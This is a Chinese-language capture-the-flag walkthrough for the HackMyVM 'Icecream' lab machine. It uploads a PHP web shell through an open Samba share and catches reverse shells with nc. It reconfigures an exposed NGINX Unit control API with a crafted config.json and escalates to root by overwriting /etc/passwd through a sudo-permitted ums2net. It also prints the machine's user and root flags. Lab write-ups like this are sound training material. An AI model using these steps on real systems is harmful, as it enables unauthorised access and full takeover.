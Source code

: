 # Icecream

2024-11-03 https://hackmyvm.eu/machines/machine.php?vm=Icecream

## IP

192.168.5.40

## Scan

```
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
9000/tcp open  cslistener
```

80 的 web 服务上没有信息。

看 139 和 445 的 samba 服务：

```
Sharename       Type      Comment
---------       ----      -------
print$          Disk      Printer Drivers
icecream        Disk      tmp Folder
IPC$            IPC       IPC Service (Samba 4.17.12-Debian)
nobody          Disk      Home Directories
```

smbclient -N //192.168.5.40/icecream 进入后，ls 没发现什么有用文件,对应的是 /tmp 目录，但是对应的有上传功能，上传一个 web shell 看看是否能访问回连，经过测试可以回连：

```
put 8888.php


nc -lvnp 8888
curl http://192.168.5.40/8888.php
```

得到了 www-data 的权限，但是没办法升级到 ice 用户权限，这个路径行不通。

ice 用户运行了 9000 端口的 cslistener 服务，能发现目标系统上的安装软件版本。进行目录扫描，发现如下目录：

```
/config               (Status: 200) [Size: 62]
/status               (Status: 200) [Size: 862]
/certificates         (Status: 200) [Size: 4]

unit: main v1.33.0 [/usr/sbin/unitd --control 0.0.0.0:9000 --user ice]
```

https://unit.nginx.org/controlapi/ 通过下面的代码控制 unitd 的路由功能：

```
利用上面 samba 功能上传一个7777端口的php shell

config.json 中的内容如下：

{
  "listeners": {
    "*:5555": {
      "pass": "routes"
    }
  },
  "routes": [
    {
      "match": {
        "uri": "*"
      },
      "action": {
        "pass": "applications/myapp"
      }
    }
  ],
  "applications": {
    "myapp": {
      "type": "php",
      "root": "/tmp",
      "index": "7777.php",
      "script": "7777.php"
    }
  }
}

curl -X PUT --data-binary @config.json http://192.168.5.40:9000/config

{
	"success": "Reconfiguration done."
}
```

完成上面的路由创建后，在 kali 上访问 curl http://192.168.5.40:5555 就可以得到 php 7777 的回连 shell:

```
ice@icecream:/$ id
id
uid=1000(ice) gid=1000(ice) grupos=1000(ice),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),100(users),106(netdev),110(bluetooth)
```

获得 user flag：

```
ice@icecream:/home/ice$ cat user.txt
HMVaneraseroflove
```

寻找提升至 root 的方法，sudo -l 发现：

```
(ALL) NOPASSWD: /usr/sbin/ums2net
```

在目标机器上创建 config 配置文件: echo '29543 of=/etc/passwd bs=4096' >> config , 然后执行代码：sudo /usr/sbin/ums2net -c config -d

可以通过 ums2net 将 tcp 传输的数据通过 usb 存储到文件，先读取目标文件的 /etc/passwd , 然后在 kali 上创建相同的文件，并且修改 root 用户的密码为 123

```
openssl passwd -1 -salt new 123

root:$1$new$p7ptkEKU1HnaHpRtzNizS1:0:0:root:/root:/bin/bash
```

在 kali 上执行 nc 将修改后的 passwd 传输到目标机器： nc -q 5 192.168.5.40 29543 < passwd

传输完成后，使用 su root 输入密码 123 得到了 root 权限，最后获得了 root flag：

```
root@icecream:~# cat root.txt
HMViminvisible
```
